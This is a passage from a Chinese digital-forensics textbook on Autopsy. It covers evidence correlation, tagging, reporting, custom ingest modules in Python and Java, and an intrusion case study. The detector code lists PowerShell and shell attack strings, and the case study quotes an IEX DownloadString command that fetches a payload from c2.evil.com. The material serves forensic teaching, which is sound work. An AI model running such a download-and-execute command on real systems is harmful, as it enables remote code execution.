Autopsy 的关联分析功能通过 Central Repository 实现跨案件的证据关联，是系列案件分析的核心能力：



- **文件关联**：同一文件哈希出现在不同案件中（恶意软件传播链追踪）
- **设备关联**：同一 USB 设备序列号出现在不同案件中（物理访问证据）
- **域名/IP 关联**：网络活动中的共同通信目标（C2 基础设施追踪）
- **用户关联**：相同用户名、邮箱出现在不同系统的不同案件中

#### 标记与注释

在分析过程中，对发现的重要证据进行标记和注释是规范操作，也是法庭证据链的关键环节：

- **书签**：标记需要后续深入分析的文件（相当于阅读书签，方便快速回到关键位置）
- **标签**：自定义分类标签（如"恶意软件"、"证据"、"待验证"、"已确认"）
- **注释**：为每个发现记录分析人员的观察和推理过程（法庭上需要解释分析逻辑）
- **优先级**：设置高中低优先级，确保关键证据优先处理
- **结论**：为每个标记项记录最终分析结论（确认/排除/待定）

**标记规范建议：**

```text
标签体系设计（推荐）：
├── 威胁级别
│   ├── 确认恶意（已验证）
│   ├── 可疑（需进一步分析）
│   ├── 未知（无已知威胁匹配）
│   └── 安全（已排除威胁）
├── 证据类型
│   ├── 持久化机制
│   ├── 横向移动证据
│   ├── 数据窃取证据
│   ├── 命令与控制
│   └── 用户行为
└── 分析状态
    ├── 待分析
    ├── 分析中
    ├── 已完成
    └── 需复核
```

#### 报告生成

Autopsy 支持多种报告格式，满足不同受众的需求：

| 格式 | 用途 | 特点 | 适用场景 |
|-----|------|------|---------|
| HTML | 在线浏览 | 交互式，支持搜索和过滤 | 团队内部审查 |
| Excel | 数据分析 | 表格格式，便于统计和排序 | 管理层汇报 |
| TSV | 数据导入 | 制表符分隔，兼容各分析工具 | 进一步自动化分析 |
| Body File | 时间线工具 | mactime 兼容格式 | 使用其他时间线工具分析 |
| PDF | 正式报告 | 固定格式，不可编辑 | 法庭提交、正式归档 |

```text
报告生成操作路径：
案件面板 → 报告 → 生成报告
→ 选择报告范围（全部发现 / 标记项 / 过滤结果）
→ 选择输出格式
→ 设置输出路径
→ 生成并导出

报告内容建议包含：
├── 案件摘要（案件背景、分析目标、关键发现）
├── 分析方法论（使用的工具、模块、步骤）
├── 证据清单（所有标记的证据项，含哈希值）
├── 时间线重建（事件序列图）
├── 关联分析结果（跨证据的关联关系）
├── 结论与建议（基于证据的分析结论）
└── 附录（技术细节、原始数据、工具版本）
```

### 25.5.7 自定义 Ingest 模块开发

Autopsy 支持通过 Python API（Jython）和 Java API 开发自定义 ingest 模块，满足特定分析需求。

#### Python 模块模板

```python
# 自定义 ingest 模块模板（Python/Jython）
import jarray
from java.lang import System
from org.sleuthkit.datamodel import SleuthkitCase, TskCoreException
from org.sleuthkit.autopsy.ingest import IngestModuleFactoryAdapter
from org.sleuthkit.autopsy.ingest import FileIngestModule
from org.sleuthkit.autopsy.ingest import IngestModule
from org.sleuthkit.autopsy.ingest import IngestModuleInit
from org.sleuthkit.autopsy.ingest import ModuleDataEvent
from org.sleuthkit.autopsy.datamodel import BlackboardArtifact
from org.sleuthkit.autopsy.datamodel import BlackboardAttribute
from org.sleuthkit.autopsy.datamodel import Attributes

class CustomFileAnalyzerFactory(IngestModuleFactoryAdapter):
    """自定义文件分析器工厂类"""
    
    def getModuleDisplayName(self):
        return "自定义文件分析器"
    
    def getModuleDescription(self):
        return "分析特定类型的可疑文件，检测已知攻击模式"
    
    def getModuleVersionNumber(self):
        return "1.0"
    
    def isFileIngestModuleFactory(self):
        return True
    
    def createFileIngestModule(self, settings):
        return CustomFileAnalyzer()

class CustomFileAnalyzer(FileIngestModule):
    """自定义文件分析器模块"""
    
    def startUp(self, context):
        """模块初始化，只执行一次"""
        self.context = context
        self.files_analyzed = 0
        self.suspicious_found = 0
        
        # 预加载检测规则（避免每次处理都重新加载）
        self.suspicious_markers = {
            b'\x4d\x5a': 'PE 可执行文件（疑似伪装）',
            b'\x7f\x45\x4c\x46': 'ELF 可执行文件（疑似伪装）',
            b'\xca\xfe\xba\xbe': 'Java Class 文件',
        }
        
        # 可疑字符串模式
        self.suspicious_strings = [
            b'Invoke-Expression',
            b'IEX(',
            b'FromBase64String',
            b'Net.WebClient',
            b'DownloadString',
            b'cmd.exe /c',
            b'/bin/bash -c',
            b'certutil -decode',
        ]
    
    def process(self, file):
        """处理每个文件"""
        try:
            # 只分析特定类型的文件
            if file.getName().endswith('.dat') or \
               file.getName().endswith('.tmp') or \
               file.getName().endswith('.bin'):
                
                self.files_analyzed += 1
                
                # 读取文件头部
                inputStream = file.newFileInputStream()
                header = jarray.zeros(512, "b")
                bytes_read = inputStream.read(header)
                inputStream.close()
                
                if bytes_read <= 0:
                    return IngestModule.ProcessResult.OK
                
                # 检查文件头签名
                is_suspicious = False
                reason = ""
                
                for marker, desc in self.suspicious_markers.items():
                    if header[:len(marker)] == marker:
                        is_suspicious = True
                        reason = desc
                        break
                
                # 检查文件内容中的可疑字符串
                if not is_suspicious:
                    inputStream = file.newFileInputStream()
                    content = jarray.zeros(min(file.getSize(), 65536), "b")
                    inputStream.read(content)
                    inputStream.close()
                    
                    for pattern in self.suspicious_strings:
                        if pattern in content:
                            is_suspicious = True
                            reason = "包含可疑字符串: " + pattern.decode('utf-8', errors='ignore')
                            break
                
                if is_suspicious:
                    self.suspicious_found += 1
                    
                    # 创建分析结果 artifact
                    art = file.newArtifact(
                        BlackboardArtifact.ARTIFACT_TYPE.TSK_INTERESTING_FILE_HIT
                    )
                    
                    # 添加属性信息
                    att_name = BlackboardAttribute.ATTRIBUTE_TYPE.TSK_SET_NAME
                    att_comment = BlackboardAttribute.ATTRIBUTE_TYPE.TSK_COMMENT
                    
                    art.addAttribute(BlackboardAttribute(att_name, 
                        "自定义分析器", "可疑文件检测"))
                    art.addAttribute(BlackboardAttribute(att_comment,
                        "自定义分析器", reason))
                    
                    # 发布数据事件（通知 GUI 刷新）
                    self.context.notifyObservers(
                        ModuleDataEvent(
                            "CustomFileAnalyzer",
                            BlackboardArtifact.ARTIFACT_TYPE.TSK_INTERESTING_FILE_HIT,
                            None
                        )
                    )
        
        except TskCoreException as e:
            self.context.logError("处理文件时出错: " + str(e))
        
        return IngestModule.ProcessResult.OK
    
    def shutDown(self):
        """模块关闭时的清理工作"""
        self.context.logInfo(
            "自定义分析器完成: 分析了 %d 个文件，发现 %d 个可疑文件" % 
            (self.files_analyzed, self.suspicious_found)
        )
```

#### Java 模块开发

```java
// 自定义 Java Ingest Module 示例
package com.forensics.custom;

import org.sleuthkit.datamodel.*;
import org.sleuthkit.autopsy.ingest.*;
import org.sleuthkit.autopsy.datamodel.BlackboardArtifact;
import java.util.logging.Level;
import java.util.logging.Logger;

public class CustomAnalyzerIngestModule implements FileIngestModule {
    private static final Logger logger = Logger.getLogger(CustomAnalyzerIngestModule.class.getName());
    private IngestJobContext context;
    private BlackboardArtifact.Type customArtifactType;
    
    @Override
    public void startUp(IngestJobContext context) throws IngestModuleException {
        this.context = context;
        
        // 创建自定义 artifact 类型（如果不存在）
        try {
            SleuthkitCase skc = context.getDataSourceProcessorConfiguration()
                .getSleuthkitCase();
            customArtifactType = skc.getOrAddArtifactType(
                "CUSTOM_SUSPICIOUS_FILE",
                "Custom Suspicious File Hit",
                BlackboardArtifact.Category.ANALYSIS_RESULT
            );
        } catch (TskCoreException e) {
            throw new IngestModuleException("无法创建自定义 artifact 类型", e);
        }
    }
    
    @Override
    public ProcessResult process(AbstractFile file) {
        // 跳过目录、虚拟文件等
        if (file.isFile() == false || file.getSize() == 0) {
            return ProcessResult.OK;
        }
        
        // 自定义分析逻辑
        try {
            byte[] buffer = new byte[4096];
            int bytesRead = file.read(buffer, 0, Math.min(buffer.length, (int)file.getSize()));
            
            if (bytesRead > 0) {
                // 检测可疑模式
                if (detectSuspiciousPattern(buffer, bytesRead)) {
                    BlackboardArtifact art = file.newArtifact(customArtifactType.getTypeID());
                    art.addAttribute(new BlackboardAttribute(
                        BlackboardAttribute.ATTRIBUTE_TYPE.TSK_COMMENT,
                        "CustomAnalyzer",
                        "检测到可疑模式"
                    ));
                    
                    // 通知 UI 更新
                    context.notifyObservers(new ModuleDataEvent(
                        "CustomAnalyzer",
                        customArtifactType,
                        null
                    ));
                }
            }
        } catch (TskCoreException e) {
            logger.log(Level.WARNING, "处理文件失败: " + file.getName(), e);
        }
        
        return ProcessResult.OK;
    }
    
    private boolean detectSuspiciousPattern(byte[] data, int length) {
        // 实现自定义检测逻辑
        // 示例：检测嵌入的 PE 文件头
        for (int i = 0; i < length - 2; i++) {
            if (data[i] == 0x4D && data[i+1] == 0x5A) {
                // 检查 PE 头偏移
                if (i + 64 < length) {
                    int peOffset = (data[i+60] & 0xFF) | 
                                   ((data[i+61] & 0xFF) << 8);
                    if (peOffset > 0 && peOffset < length - 4) {
                        if (data[i+peOffset] == 0x50 && 
                            data[i+peOffset+1] == 0x45) {
                            return true;
                        }
                    }
                }
            }
        }
        return false;
    }
    
    @Override
    public void shutDown() {
        logger.info("CustomAnalyzer 模块关闭");
    }
}
```

**自定义模块的部署方式：**

```bash
# Python 模块部署
cp custom_analyzer.py /usr/share/autopsy/python_modules/
# 或通过 GUI：工具 → 插件 → 添加 → 选择 .nbm 模块包

# Java 模块部署
# 1. 编译模块
ant -f build.xml build
# 2. 打包为 .nbm 文件
ant -f build.xml create-nbm
# 3. 通过 GUI 安装
# 工具 → 插件 → 添加 → 选择 .nbm 文件

# 模块开发调试
# 启动 Autopsy 时添加调试参数
# 编辑 /etc/autopsy/autopsy.conf
# DEFAULT_JVM_OPTIONS="-J-Xdebug -J-Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5005"
# 然后用 IDE 远程调试连接到 5005 端口
```

### 25.5.8 与其他取证工具的对比

| 特性 | Autopsy | EnCase | FTK | X-Ways |
|-----|---------|--------|-----|--------|
| 价格 | 免费开源 | 商业（$3000+） | 商业（$2000+） | 商业（$1000+） |
| 平台 | 跨平台（Java） | Windows | Windows | Windows |
| 图形界面 | Web GUI | 桌面 GUI | 桌面 GUI | 桌面 GUI |
| 扩展性 | Python/Java 模块 | EnScript 脚本 | 有限 | 有限 |
| 社区支持 | 活跃的开源社区 | 官方技术支持 | 官方技术支持 | 官方技术支持 |
| 法庭认可度 | 中（需专家证人说明） | 高（行业标准） | 高 | 中 |
| 学习曲线 | 中等 | 陡峭 | 中等 | 陡峭 |
| 大文件处理 | 良好（100GB+） | 优秀 | 优秀 | 优秀 |
| 内存取证 | 需集成 Volatility | 需插件 | 需插件 | 不支持 |
| 全文搜索 | Solr/Lucene | 内置 | 内置 | 有限 |
| 脚本自动化 | Python/Java | EnScript | Lua | X-Tri |
| 虚拟机分析 | 内置 VM Extractor | 需手动 | 有限 | 不支持 |
| 移动设备 | UFDR/TAR 导入 | 有限 | 有限 | 不支持 |
| 多用户协作 | Central Repository | Enterprise Server | 有限 | 不支持 |

**选择建议：**

- **预算有限的团队**：Autopsy 是首选，功能完整且无许可证成本
- **法庭证据要求严格**：EnCase 在法律体系中的认可度最高，多数法庭直接接受其报告
- **快速筛查需求**：FTK 的处理速度在商业工具中领先，适合大规模筛查
- **日常分析工作**：Autopsy + X-Ways 组合覆盖大部分需求（Autopsy 做分析，X-Ways 做快速查看）
- **企业环境**：Autopsy 的多用户协作能力（Central Repository）适合团队使用
- **学术研究**：Autopsy 开源代码可研究和扩展，适合教学和研究场景

### 25.5.9 常见误区与注意事项

**误区一：文件删除等于文件消失**

```text
事实：删除文件只是标记文件系统中的空间为可用，数据本身仍残留在磁盘上。
→ Autopsy 的 PhotoRec Carver 可以雕刻恢复已删除文件
→ 关键条件：删除后未被新数据覆盖
→ SSD 的 TRIM 机制会加速数据清除，恢复成功率低于 HDD
→ HDD 上的文件恢复率取决于文件系统类型：
  ├── FAT32：高（无日志，删除标记简单）
  ├── NTFS：中高（有日志但 $MFT 保留记录）
  └── ext4：中（日志可能包含文件元数据）
```

**误区二：只看 `$STANDARD_INFORMATION` 时间戳**

```text
事实：NTFS 文件有两套时间戳（SI 和 FN），攻击者可能只修改了 SI。
→ 始终同时检查 $FILE_NAME 记录中的时间戳
→ SI 和 FN 时间戳不一致是篡改的重要信号
→ 使用 TSK 的 fls -e 命令可同时显示两套时间戳：
  fls -e -r -m "/" /evidence/image.E01
```

**误区三：哈希匹配就等于恶意**

```text
事实：NSRL 只标记"已知软件"，不区分软件的使用场景。
→ 合法的远程管理工具（如 PsExec、Cobalt Strike）在恶意场景中也被使用
→ 需要结合上下文判断：文件位置、调用链、使用时间、使用频率
→ 同一工具在 IT 管理员手中是合法工具，在攻击者手中是恶意工具
→ 判断依据：谁在什么时间、什么条件下、以什么方式使用
```

**误区四：忽略时区设置**

```text
事实：错误的时区会导致所有时间线偏移数小时，直接影响案发时间认定。
→ 创建案件时务必确认目标系统的时区设置
→ Windows 注册表中有时区配置：
  HKLM\SYSTEM\CurrentControlSet\Control\TimeZoneInformation
  → TimeZoneKeyName 字段（如 "China Standard Time"）
  → Bias 字段（时区偏移量，分钟数）
→ Linux 系统：/etc/localtime 符号链接目标
→ 不确定时使用 UTC，宁可偏移也不要猜错
```

**误区五：取证镜像可以直接挂载分析**

```text
事实：直接挂载可能修改镜像中的时间戳和元数据（即使使用 mount -o ro）。
→ Autopsy 以只读模式访问数据源，不会修改原始镜像（最佳实践）
→ 手动挂载时务必使用只读选项：mount -o ro,loop,noexec /dev/sda1 /mnt/evidence
→ 更安全的方式：使用 ewfmount 挂载 E01 镜像
  ewfmount image.E01 /mnt/ewf/
  → 挂载为只读块设备，禁止写入
```

**误区六：只关注"坏的"文件，忽略"好的"文件**

```text
事实：攻击者经常利用合法工具进行攻击（Living off the Land 攻击）。
→ PsExec、WMI、PowerShell、certutil 都是合法系统工具
→ 在恶意场景中使用时，这些"好的"文件是关键证据
→ 分析重点不是文件本身，而是使用方式、时间、目标
```

### 25.5.10 实战案例：入侵事件取证

以下是一个完整的入侵事件取证流程，展示如何使用 Autopsy 进行端到端分析。

**案件背景：** 某公司服务器（Windows Server 2019）发现异常外联到已知 C2 域名，安全团队制作了磁盘镜像（E01格式），需要进行取证分析。

**第一步：创建案件并加载数据源**

```text
案件信息：
  案件名：INCIDENT-2025-0327
  案件编号：IR-2025-0327
  检查员：ForensicsTeam
  案件目录：/opt/forensics/cases/IR-2025-0327/

添加数据源：
  类型：磁盘镜像文件（E01）
  文件：server-disk.E01
  时区：UTC+8（China Standard Time，从注册表确认）
  镜像大小：478GB
  预计处理时间：2-4小时（取决于硬件配置）
```

**第二步：快速筛查（第一阶段 Ingest）**

```text
启用模块：File Type ID + Hash Lookup + Registry + Recent Activity
处理时间：约 25 分钟

分析结果：
1. Hash Lookup 结果
   → 匹配 NSRL：排除 312,847 个已知合法文件
   → 未匹配：剩余 18,293 个文件需要人工审查
   → 重点关注：12 个位于异常路径的未知可执行文件

2. 注册表分析结果
   → 自启动项发现：
     HKCU\Software\Microsoft\Windows\CurrentVersion\Run
     → "C:\ProgramData\svchost.exe"（异常！svchost.exe 应在 System32）
   → USB 设备记录：
     2025-03-25 14:32:17 首次连接 USB 存储设备
     设备：Kingston DataTraveler 3.0
     序列号：USB-4C530001131216114561
   → 网络连接记录：
     2025-03-20 首次连接到 "Corp-Guest-WiFi"（异常网络）

3. Recent Activity 结果
   → 最近打开的文件列表包含：
     2025-03-25 15:01:22 - C:\ProgramData\payload.exe
     2025-03-25 15:01:45 - C:\ProgramData\payload.exe（再次执行）
   → 最近下载记录：
     2025-03-25 14:45:03 - http://malicious-domain.com/update.zip
```

**第三步：深入分析（第二阶段 Ingest）**

```text
启用模块：Keyword Search + YARA Scanner
处理时间：约 3 小时

分析结果：
1. 关键词搜索
   → 搜索 "powershell -enc"：
     命中 23 处，其中 15 处在 PowerShell 历史日志中
     发现 Base64 编码命令解码后包含：
     "IEX (New-Object Net.WebClient).DownloadString('http://c2.evil.com/payload.ps1')"
   → 搜索可疑 IP（来自网络设备日志的 C2 IP）：
     命中 8 处，在 DNS 缓存和浏览器历史中
   → 搜索 "cmd.exe /c"：
     发现多个异常命令执行记录

2. YARA 扫描结果
   → 命中规则 "APT_PowerShell_Reflection"
     文件：C:\ProgramData\svchost.exe
     置信度：高
   → 命中规则 "Suspicious_CobaltStrike_Beacon"
     文件：C:\ProgramData\update.exe
     置信度：中

3. 时间线分析（聚焦 2025-03-25 08:00 至 2025-03-27 10:00）

关键事件序列：
  03-25 08:15 - 用户登录（域管理员账户 admin@corp.local）
  03-25 14:32 - USB 设备首次连接（Kingston DataTraveler）
  03-25 14:45 - 从恶意域名下载 update.zip
  03-25 14:46 - 解压 update.zip（释放 payload.exe）
  03-25 15:01 - 执行 payload.exe（首次执行）
  03-25 15:01 - payload.exe 创建 svchost.exe（持久化）
  03-25 15:02 - 注册表 Run 项被修改（添加自启动）
  03-25 15:03 - 首次连接 C2 域名（DNS 解析记录）
  03-25 15:05 - PowerShell 执行 Base64 编码命令
  03-25 16:00 - 服务重启后 svchost.exe 自动执行（持久化验证）
  03-26 09:00 - 再次连接 C2（每日心跳）
  03-27 08:00 - 安全团队发现异常外联
```

**第四步：证据标记与报告**

```text
1. 标记关键证据
   ├── 恶意文件
   │   ├── C:\ProgramData\svchost.exe（伪装的恶意程序）
   │   │   → SHA-256: a1b2c3d4...
   │   │   → 标签：恶意软件、持久化机制
   │   ├── C:\ProgramData\update.exe（Cobalt Strike Beacon）
   │   │   → SHA-256: e5f6g7h8...
   │   │   → 标签：C2通信、后门
   │   └── C:\ProgramData\payload.exe（原始载荷）
   │       → SHA-256: i9j0k1l2...
   │       → 标签：初始载荷、下载执行
   ├── 持久化机制
   │   └── HKCU\...\Run → C:\ProgramData\svchost.exe
   │       → 标签：持久化、注册表修改
   ├── 网络活动
   │   ├── DNS 解析：c2.evil.com → 185.x.x.x
   │   ├── HTTP 下载：malicious-domain.com/update.zip
   │   └── PowerShell 命令：IEX DownloadString
   └── 物理访问证据
       └── USB 设备连接记录（2025-03-25）
           → 标签：物理入侵、数据窃取可能

2. 生成报告
   → 格式：HTML（团队审查）+ Excel（管理层）+ PDF（法庭提交）
   → 范围：仅导出标记的证据项
   → 附件：恶意文件哈希值清单、时间线图表、IOCs 列表
   → 分析结论：
     初始入侵时间：2025-03-25 14:45（下载恶意载荷）
     攻击向量：社会工程（诱导下载恶意更新包）
     持久化方式：注册表 Run 项 + 可疑程序命名
     C2 通信：每日心跳模式，使用 HTTP 协议
     影响范围：单台服务器（需进一步横向移动排查）
```

### 25.5.11 性能优化

处理大容量数据源（100GB+）时的优化策略：

**硬件优化：**

```text
存储：
├── 案件目录必须使用 SSD（HDD 上 Solr 索引性能差 10-50 倍）
├── 数据源镜像可放在 HDD（读取密集型，SSD 提升有限）
├── 临时文件和索引使用 NVMe SSD（随机读写密集）
└── 避免系统盘和案件目录共用同一磁盘

内存：
├── 基础配置：16GB RAM（适合 100GB 以下镜像）
├── 推荐配置：32GB RAM（适合 100-500GB 镜像）
├── 大型案件：64GB+ RAM（500GB+ 镜像）
└── Java 堆设置：系统内存的 50%（如 32GB 系统设 -Xmx16g）

CPU：
├── Solr 索引构建支持多核并行（8核以上显著提升）
├── 哈希计算支持多线程
├── 文件雕刻 CPU 密集（多核优势明显）
└── 推荐：Intel i7/Xeon 8核以上或 AMD Ryzen 7 以上
```

**软件优化：**

```bash
# 调整 Java 堆大小（编辑 autopsy.conf）
DEFAULT_JVM_OPTIONS="-J-Xmx16g -J-Xms8g -J-XX:+UseG1GC"

# 调整 Solr 配置（编辑 solrconfig.xml）
# 增加缓存大小以加速重复搜索
<query>
    <maxBooleanClauses>10240</maxBooleanClauses>
    <filterCache class="solr.FLRUCache" size="4096" initialSize="4096"/>
    <queryResultCache class="solr.FLRUCache" size="4096" initialSize="4096"/>
</query>

# 关闭不必要的实时预览（减少 I/O 开销）
# Autopsy 首选项 → 分析 → 禁用实时缩略图生成

# 使用 NSRL 哈希库预过滤（减少需要分析的文件数量）
# 可排除 60-80% 的已知合法文件
```

**工作流优化：**

```text
1. 分阶段处理（避免一次性加载所有模块）
2. 先运行快速模块（Hash + FileType），再运行慢速模块（Keyword Search）
3. 对大镜像分区域分析：先用户目录（最可能有证据），再系统目录
4. 使用过滤器限制分析范围（排除系统文件、已知安全文件）
5. 利用 Central Repository 缓存已分析结果（避免重复计算）
6. 定期清理 Temp 目录（释放磁盘空间）
```

### 25.5.12 扩展阅读与资源

- **The Sleuth Kit 官方文档**：https://sleuthkit.org/sleuthkit/docs/
- **Autopsy 官方文档**：https://www.autopsy.com/support/
- **Autopsy Python 模块开发指南**：https://github.com/sleuthkit/autopsy/wiki
- **Brian Carrier《File System Forensic Analysis》**：文件系统取证的权威著作
- **NIST NSRL 哈希库**：https://www.nist.gov/itl/ssd/software-quality-group/national-software-reference-library-nsrl
- **SANS 数字取证课程**：https://www.sans.org/cyber-security-courses/
- **Autopsy 官方论坛**：https://forum.autopsy.com/（社区问答和模块分享）
- **数字取证工具集对比**：https://dfironline.com/（各工具的功能对比和教程）
